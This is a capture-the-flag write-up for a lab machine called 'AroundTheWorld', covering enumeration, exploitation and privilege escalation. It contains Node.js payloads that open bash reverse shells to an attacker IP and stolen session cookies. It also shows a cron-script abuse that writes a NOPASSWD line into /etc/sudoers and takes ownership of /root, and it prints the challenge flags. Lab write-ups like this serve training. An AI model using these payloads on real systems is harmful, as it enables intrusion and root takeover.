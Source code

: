 # AroundTheWorld

## Enumeration

```bash
└─$ nmap -sV -A -p- -sC -T4 10.10.3.188                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 11:25 BST
Nmap scan report for 10.10.3.188
Host is up (0.034s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Around The World
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.37 seconds
```
## Exploitation

### Sessions cookie with Burp Suite for the exploit

```bash
marius = connect.sid=s%3AYEh3XOXfeJ4VmlYmq7JRYp6waS-y555e.Ts929QOfsFRtzp%2FT3bT9nOizyk1LRI5oYZTlTe8vRZs

clement = connect.sid=s%3A40X2GhAa_PU5sozzpjJJkN4O2xcwURpc.FW0yOOX%2BMZeltzwEL8HXypG167cJU1A9FMVop3uE6TM

yes 1 | head -n 10000 > gold.txt

./script.py

require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4447 <&1'")
require("child_process").exec("bash -c 'exec bash -i &>/dev/tcp/10.8.37.214/4444 <&1'")
```
### Got a reverse shell as simple user

#### Spawn an upgrade shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## User FLAG

```cat user.txt``` = EPI{we_R_HuM4N2_4f7eR_4ll}

## Privilege Escalation

### Got a shell as tb3 who has more rights
```bash
sudo -u tb3 /bin/bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

./pspy64 :

2024/05/28 12:05:55 CMD: UID=0     PID=2      | 
2024/05/28 12:05:55 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2024/05/28 12:06:01 CMD: UID=0     PID=1685   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1684   | rm /home/gm08/admin/log.jukebox 
2024/05/28 12:06:01 CMD: UID=0     PID=1683   | /bin/sh /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1682   | /bin/sh /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1681   | /bin/sh -c /home/tb3/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1680   | /bin/sh -c /home/gm08/admin/clean_logs.sh 
2024/05/28 12:06:01 CMD: UID=0     PID=1679   | /usr/sbin/CRON -f 
2024/05/28 12:06:01 CMD: UID=0     PID=1678   | /usr/sbin/CRON -f

tb3@aroundtheworld:~/admin$ cat clean_logs.sh 
rm /home/gm08/admin/log.jukebox

./jukebox clean_logs.sh

eecchhoo  ""ttbb33  AALLLL==((AALLLL::AALLLL))  NNOOPPAASSSSWWDD  //bbiinn//bbaasshh""  >> //eettcc//ssuuddooeerrss

sudo chown luffy:luffy /root
ssuuddoo  cchhoowwnn  ttbb33::ttbb33  //rroooott

ccaatt  //rroooott//rroooott..ttxxtt  >>  //hhoommee//ttbb33//rroooott..ttxxtt
```

## Root FLAG

```cat root.txt``` = EPI{172_4m421n9_WH@_JOoll_ph1ND_ph4c3_7o_Ph4c3}

